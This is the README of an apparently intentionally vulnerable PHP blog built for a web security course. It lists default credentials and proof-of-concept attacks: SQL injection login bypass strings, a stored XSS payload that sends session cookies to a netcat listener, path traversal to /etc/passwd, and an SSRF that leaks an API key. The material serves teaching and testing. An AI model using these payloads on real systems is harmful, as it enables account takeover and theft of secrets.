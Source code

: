 # VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `admin`:`admin`
- `felix`:`P@ssword`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
#### Example 1
In the navbar select 'Previously created Blogposts' and edit any blogpost.
You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2021 – Injection
#### Example 1: SQL Injection
The login form is injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
admin' #
```

#### Example 2: Stored Cross-Site-Scripting
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 - Insecure Direct Object References
#### Example 1
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### 2021 - Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginary API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)
